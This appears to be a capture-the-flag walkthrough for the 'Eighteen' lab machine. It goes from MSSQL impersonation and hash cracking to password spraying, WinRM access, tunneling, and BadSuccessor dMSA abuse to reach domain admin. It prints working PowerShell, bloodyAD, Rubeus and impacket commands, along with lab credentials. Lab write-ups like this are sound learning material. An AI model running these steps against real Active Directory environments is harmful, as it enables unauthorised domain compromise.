---
```
Scope:
10.10.11.95

Creds:
kevin
iNa2we6haRj2gaw!
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn eighteen.htb 

PORT     STATE SERVICE  REASON  VERSION
80/tcp   open  http     syn-ack Microsoft IIS httpd 10.0
|_http-title: Welcome - eighteen.htb
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Microsoft-IIS/10.0
1433/tcp open  ms-sql-s syn-ack Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   10.10.11.95:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.11.95:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
|_ssl-date: 2025-11-17T16:59:02+00:00; +6h59m59s from scanner time.
5985/tcp open  http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I tried the creds for `winrm` but they didn't work, let's try them for port `80` instead.

## 80/TCP - HTTP


I tried the provided creds here but it didn't work here either.



## 1433/TCP - MSSQL

I then tried out the `mssql` service where the creds did seem to work:



I proceeded by logging in via `impacket-mssqlclient`:



:::important
Contrary to the `nxc` command, `mssqlclient` only worked while omitting the `-windows-auth` tag.
:::

I wasn't able to enable the `xp_cmdshell` so it was time for some enumeration.

### enumeration



From this context I enumerated my current user further:



I then followed up with the following query which would enumerate all present users and which db's they could access:

```SQL
SELECT d.database_id, d.name AS database_name, dp.name AS db_user, dp.type_desc FROM sys.databases d CROSS APPLY ( SELECT name, type_desc FROM sys.database_principals ) dp WHERE d.database_id = DB_ID();
```



This confirms that we're currently stuck inside the `master` db.

Next up I looked for interesting accounts:

```sql
SELECT principal_id, name, type, type_desc, is_disabled, create_date FROM sys.server_principals ORDER BY type_desc, name;
```



Using the following command we can then check whether we can impersonate someone:

```sql
SELECT pr.name AS principal_with_right, pe.permission_name, pe.state_desc FROM sys.server_permissions pe JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_id WHERE pe.permission_name LIKE '%IMPERSONATE%';
```



This is good, let's check further:

```sql
SELECT pe.permission_name, pe.state_desc, pe.class_desc, pe.major_id AS target_principal_id, sp_target.name AS target_principal_name FROM sys.server_permissions pe LEFT JOIN sys.server_principals sp_target ON pe.major_id = sp_target.principal_id WHERE pe.permission_name = 'IMPERSONATE' AND pe.grantee_principal_id = (SELECT principal_id FROM sys.server_principals WHERE name='kevin');
```



### impersonating appdev

It turns out we can impersonate the *appdev* user, let's try it out.

```sql
EXECUTE AS LOGIN = 'appdev';
SELECT ORIGINAL_LOGIN() AS original_login, SUSER_SNAME() AS current_login, USER_NAME() AS db_user;
SELECT IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin;
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

With the above commands I enumerated the permissions of the *appdev* user, turns out we can now check out other databases with them:



Let's check out the `financial_planner` database.

### financial_planner



Since we don't see any non-default tables we'll assume everything's under `dbo`.

```sql
SELECT s.name AS schema_name, t.name AS table_name FROM sys.tables t JOIN sys.schemas s ON t.schema_id = s.schema_id ORDER BY schema_name, table_name;
```



We notice the `users` table, let's check it out:

```sql
SELECT * FROM dbo.users;
```



This is a `python werkzeug` hash which I tried to crack using `hashcat` but failed.

# Exploitation
## Hash cracking

Instead I used the following script to crack the password:



```
admin
iloveyou1
```

Using these creds I was able to log into the admin dashboard on port `80`:



Down at the bottom I noticed the previous user had tried exploiting the `flask` templating language:



This led to a death end though, leading me to check elsewhere.

## Password Spraying

Instead I first used `nxc` to enumerate the users on the target:



I then password sprayed the found password against the enumerated users.



# Foothold
## 5985/TCP - WINRM

Using the following credentials I logged in:

```
adam.scott
iloveyou1
```



### user.txt



## Enumeration

I transferred over `winpeas` and let it enumerate the target.



I found some named pipes:


However these could not be exploited:



This didn't show anything interesting though. One thing I did find though was the abundance of internally exposed AD ports:



One way to expose these would be through **Port Forwarding**.

## Tunneling

I then enumerated the target using `bloodhound` but this didn't show anything useful either.
Instead I had to port forward first using `ligolo` in order to expose the internal ports.





I then set up the port forward:



## bloodyAD

Once I had the port forward set up I tried some commands using `bloodyAD`:



:::note
It was now able to reach the AD server (unlike previously), all that's left is to get the correct command down.


:::

I used [this cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/) to enumerate the target using various `bloodyAD` commands. One command showed me some interesting output:



This showed us that we have `WRITE` permissions, however we still couldn't do much with it at this point. From my `nxc` enumeration I remembered the system version of the target.


While this version seems up to date, there have apparently been found flaws already that could help us in this case.

# Privilege Escalation
## BadSuccessor - Abusing dMSA

Looking around on google I found the following [blog post](https://forestall.io/blog/en/active-directory/privilege-escalation-by-abusing-dmsa-the-badsuccessor-vulnerability/) that matched my current situation:



A bit further down we see how it matches the current situation.



### Exploitation

I then got to the exploitation part and used the following command to create a new computer:

```powershell
New-MachineAccount -MachineAccount ATTACKER -Password (ConvertTo-SecureString 'P@ssword123' -AsPlainText -Force) -DistinguishedName "CN=ATTACKER,OU=Staff,DC=eighteen,DC=htb"
```



As the blog mentions:

:::note
To achieve privilege escalation within the domain, it is necessary either to create a **dMSA** account or to have write permissions on the **msDS-ManagedAccountPrecededByLink** and **msDS-DelegatedMSAState** attributes of an existing **dMSA** account.
:::

Next up we'll use the following command:

```powershell
New-ADServiceAccount -Name "vulnDMSA" -DNSHostName "vulndmsa.eighteen.htb" -CreateDelegatedServiceAccount -PrincipalsAllowedToRetrieveManagedPassword "CN=ATTACKER,OU=Staff,DC=eighteen,DC=htb" -Path "OU=Staff,DC=eighteen,DC=htb"
```

Then the following:

```powershell
# Identity you control
$identity = "eighteen\adam.scott"
 
# DN of the target DMSA object
$objectDN = "CN=vulnDMSA,OU=Staff,DC=eighteen,DC=htb"
 
# Get current ACL on the DMSA
$acl = Get-Acl "AD:$objectDN"
 
# Convert identity into an NTAccount object
$identityRef = New-Object System.Security.Principal.NTAccount($identity)
 
# Create a GenericAll ACE (full control on this ONE object)
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule `
(
    $identityRef,
    [System.DirectoryServices.ActiveDirectoryRights]::GenericAll,
    [System.Security.AccessControl.AccessControlType]::Allow
)
 
# Add ACE to object ACL
$acl.AddAccessRule($ace)
 
# Write back ACL
Set-Acl -Path "AD:$objectDN" -AclObject $acl
```



Once that is done the next commands:

```powershell
# Bind to the DMSA object
$dMSA = [ADSI]"LDAP://CN=vulnDMSA,OU=Staff,DC=eighteen,DC=htb"

# Mark migration as finished (required before modifying precededBy)
$dMSA.Put("msDS-DelegatedMSAState", 2)

# Set the precededBy link to the target object (Administrator in this example)
$dMSA.Put("msDS-ManagedAccountPrecededByLink", "CN=Administrator,CN=Users,DC=eighteen,DC=htb")

# Commit the changes
$dMSA.SetInfo()
```

:::note
During the creation of the **dMSA** account, the attacker obtains the TGT ticket associated with the machine account they are using via the **PrincipalsAllowedToRetrieveManagedPassword** configuration, making this machine account the preferred choice since it has the necessary permissions to read the **dMSA** object’s password.
:::

```powershell
.\Rubeus.exe asktgt /user:ATTACKER$ /password:'P@ssword123' /enctype:aes256 /nowrap
```

However this ultimately did not work for some reason:



### more bloodyAD

Instead I opted to use `bloodyAD` instead of doing it via `powershell`. In order to do this though I had to reference the [following github issue](https://github.com/CravateRouge/bloodyAD/issues/101) since it wouldn't work:



I looked up where my `bloodyAD` package was installed and modified the code:







Once this was fixed it worked without an issue:

```bash
bloodyAD --dc-ip 240.0.0.1 -d eighteen.htb -u adam.scott -p iloveyou1 add badSuccessor hacker3
```



Now I was able to get the service ticket:

```bash
impacket-getST -dc-ip 240.0.0.1 -spn 'ldap/dc01.eighteen.htb' eighteen.htb/hacker3$ -k -no-pass
```



Once this was done it was free game:

```bash
impacket-psexec -k -no-pass 'eighteen.htb/hacker3$@dc01.eighteen.htb'
```



#### root.txt





---